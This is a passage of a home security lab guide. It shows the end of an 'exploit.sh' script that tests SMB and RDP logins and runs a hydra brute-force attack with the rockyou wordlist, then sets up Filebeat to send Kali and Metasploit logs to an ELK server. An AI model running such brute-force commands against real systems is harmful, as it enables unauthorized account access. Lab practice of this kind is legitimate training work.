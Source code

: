 ```bash
# Test SMB login
echo "2. Testing SMB login..."
smbclient -L //$TARGET -U $USERNAME%$PASSWORD

# Test RDP
echo "3. Testing RDP..."
xfreerdp /v:$TARGET /u:$USERNAME /p:$PASSWORD /cert-ignore

# Brute force test
echo "4. Testing brute force..."
hydra -l $USERNAME -P /usr/share/wordlists/rockyou.txt $TARGET smb -t 4

echo "=== Exploitation Complete ==="
```

### **Make scripts executable**
```bash
chmod +x /home/kali/recon.sh
chmod +x /home/kali/exploit.sh
```

## **Step 6: Configure ELK Integration**

### **Install Filebeat for logging**
```bash
# Download and install Filebeat
wget -qO - https://artifacts.elastic.co/GPG-KEY-elasticsearch | sudo apt-key add -
echo "deb https://artifacts.elastic.co/packages/7.x/apt stable main" | sudo tee /etc/apt/sources.list.d/elastic-7.x.list
sudo apt update
sudo apt install filebeat

# Configure Filebeat
sudo nano /etc/filebeat/filebeat.yml
```

### **Filebeat Configuration**
```yaml
filebeat.inputs:
- type: log
  enabled: true
  paths:
    - /var/log/auth.log
    - /var/log/syslog
    - /home/kali/.msf4/logs/*.log

output.elasticsearch:
  hosts: ["172.16.200.136:9200"]
  index: "kali-logs-%{+yyyy.MM.dd}"

setup.kibana:
  host: "172.16.200.136:5601"
```
